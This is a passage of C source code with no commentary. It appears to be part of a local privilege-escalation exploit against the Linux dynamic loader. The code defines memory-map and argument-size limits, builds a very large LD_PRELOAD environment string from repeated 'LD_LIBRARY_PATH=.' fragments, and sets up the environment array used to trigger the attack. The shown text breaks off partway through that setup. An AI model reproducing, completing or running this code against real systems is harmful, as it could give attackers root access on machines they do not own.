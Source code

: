     #define MAPCOUNT_ELF_CORE_MARGIN        (5)
    #define DEFAULT_MAX_MAP_COUNT   (USHRT_MAX - MAPCOUNT_ELF_CORE_MARGIN)

    #define PAGESZ ((size_t)4096)
    #define MAX_ARG_STRLEN ((size_t)128 << 10)
    #define MAX_ARG_STRINGS ((size_t)0x7FFFFFFF)

    #define die() do { \
        fprintf(stderr, "died in %s: %u\n", __func__, __LINE__); \
        exit(EXIT_FAILURE); \
    } while (0)

    int
    main(void)
    {
        if (sizeof(size_t) != sizeof(uint64_t)) die();
        const size_t alpha = 512;
        const size_t sprand = 8192;
        const size_t beta = (size_t)9 << 10;
        const size_t items = (size_t)1 << 31;
        const size_t offset = items * sizeof(uintptr_t);

        #define LLP "LD_LIBRARY_PATH=."
        static char preload_env[MAX_ARG_STRLEN];
      {
        char * const sp = stpcpy(preload_env, "LD_PRELOAD=");
        char * cp = preload_env + sizeof(preload_env);
        size_t n;
        for (n = 1; n <= (size_t)(cp - sp) / sizeof(LLP); n++) {
            size_t i;
            for (i = n; i; i--) {
                *--cp = (n == 1) ? '\0' : (i == n) ? ':' : '0';
                cp -= sizeof(LLP)-1;
                memcpy(cp, LLP, sizeof(LLP)-1);
            }
        }
        memset(sp, ':', (size_t)(cp - sp));
        if (memchr(preload_env, '\0', sizeof(preload_env)) !=
                        preload_env + sizeof(preload_env)-1) die();
      }
        const char * const protect_envp[] = {
            preload_env,
        };
        const size_t protect_envc = sizeof(protect_envp) / sizeof(protect_envp[0]);
        size_t _protect_envsz = 0;
      {
        size_t i;
        for (i = 0; i < protect_envc; i++) {
            _protect_envsz += strlen(protect_envp[i]) + 1;
        }
      }
        const size_t protect_envsz = _protect_envsz;
